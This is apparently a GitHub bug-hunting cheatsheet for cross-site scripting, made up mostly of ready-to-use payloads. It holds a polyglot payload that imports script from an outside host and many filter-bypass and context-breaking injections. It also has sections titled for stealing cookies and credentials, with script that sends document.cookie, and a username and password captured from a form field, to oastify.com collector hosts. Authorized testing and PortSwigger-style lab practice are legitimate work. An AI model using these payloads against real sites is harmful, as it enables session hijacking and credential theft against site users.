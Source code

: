 ## Testing XSS
**One Payload For Testing All Kinds of scenario**
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
<!--</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76-->
```
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76
```
**Note**
  1. Check html tag and attribute for reflection.
  2. If < and > symbol reflecting in source code without encoding, XSS possible.
  3. If ' or " symbol reflecting in source code without encoding, XSS possible.

**Testing XSS in every type of scenario**
```js
<script>alert(1337)</script>

><script>alert(1337)</script>

<sCrIpt>alert(1337)</sCripT>

">cyborg71<script>alert(1337)</script>

<svg/ onload=alert(1337)//

<Svg/OnLoad=(confirm)(1337)<!--

<body/OnResize=(confirm)(123456)<!--

<img src=x onerror=alert(1337)>

</script><img src=x onerror=alert(1337)>

<iframe src="javascript:alert(1337)">

';alert(1337)//

${alert(1337)}

<custom-tag onmouseover='alert(1337)'>

/?x=y'%09onclick='alert(1337)'%09accessKey='x'

/?'accesskey='x'onclick='alert(1337)

javascript:alert(1337) (Inject in href attribute)

y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1337)%3E

"><h1>cyborg.71</h1>

<script onclick="alert(1337)">

<a href="javascript:alert('XSS')">Click me</a>

<img src=https://i.imgflip.com/8uo0t9.jpg>
```
Here, ```%09``` represents the horizontal tab character and ```%0A``` represents the newline.
<br>
**External source of payloads**

https://github.com/payloadbox/xss-payload-list

**For filter bypass**

https://github.com/terjanq/Tiny-XSS-Payloads

## Payload for stealing cookies
```js
<script>
fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
```js
<script>location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';</script>
```
## Payload for stealing credentials
```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
## XSS with filter evasion
```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
**XSS Filter Evasion Cheat Sheet**
<br>
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
## For html Injection
```
<h1>cyborg71</h1>
"><h1>cyborg71</h1>
<a href="https://google.com"></a>
```
## Angle brackets HTML-encoded bypass
**Reflected XSS into HTML attribute with angle brackets HTML-encoded**
<br>
<br>
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
<br>
![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
" onmouseover="alert(1)
```
![Screenshot from 2024-06-22 22-10-29](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5f0c53d6-0489-483d-a82d-373456ee9233)
<br>
<br>
**Reflected XSS into a JavaScript string with angle brackets HTML encoded**
<br>
<br>
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
'-alert(1)-'
```
Finally the code will look like this after response.
![Screenshot from 2024-06-23 19-29-18](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5387641e-5ee7-4dca-89a3-e1253a426bc5)
<br>
<br>
#### Reflected XSS into a JavaScript string with single quote and backslash escaped
In some scenarios the payload might not work because of single quote and backslash escape.
![Screenshot from 2024-07-01 04-27-49](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/af236bde-554a-45f9-8e61-77f4409e5ef4) <br>
In this situation, you close the script tag inject your payload.
```
</script><img src=x onerror=alert(1337)>
```
And then the final code will look like this after response.
![Screenshot from 2024-07-01 04-37-54](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/8221e31d-5597-464b-8ed2-2b4d32368b9d)
#### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
Sometimes previous method might not work because of angle brackets and double quotes HTML-encoded and single quotes escaped.
![Screenshot from 2024-07-01 21-47-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/320694fa-5d32-468d-bab3-62bc18829582)<br>
In this case you can try this payload
```
\';alert(1337)//
\'-alert(1)//
```
And the final code will look like this.
<br>
![Screenshot from 2024-07-01 21-50-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/3c75b4b8-173c-4bf7-8c3b-bc87dbc90386)
## Tags and Attribute Block Bypass
**Reflected XSS into HTML context with most tags and attributes blocked**
<br>
Bruteforce for getting allowed tags.
<br>
Check this Portswigger lab for details: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked.
```
"><body onresize=alert(1337)>
```
**Reflected XSS into HTML context with all tags blocked except custom ones**
***Key Note***
```tabindex="1"```, ```id="a1"```, ```#a1```
```
<custom-tag tabindex="1" onfocus='alert(1337)' id="a1">#a1
<xss id=a1 onfocus=alert(document.cookie) tabindex=1>#a1
```
## Reflected XSS with some SVG markup allowed
```
"><svg><animatetransform onbegin=alert(1337)></animatetransform></svg>
"><svg><animatetransform onbegin='alert(1337)'></animatetransform></svg>
```
## Reflected XSS in canonical link tag
Make your custom parameter in a url path such as httpx://a.com/?```whoami=cyborg71```.
![Screenshot from 2024-07-01 03-55-35](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/67df34d4-e22f-49cf-a1f0-786a9113b316)<br>
After this, If we get a canonical link in page source, then there might be a xss vulnerability exists. In this case try this payloads.
```
/?whoami=cyborg71'%09onclick='alert(1337)'%09accessKey='x'
/?'accesskey='x'onclick='alert(1337)
```
Now, use this keys to get reflection.

    On Windows: ALT+SHIFT+X
    On MacOS: CTRL+ALT+X
    On Linux: Alt+X

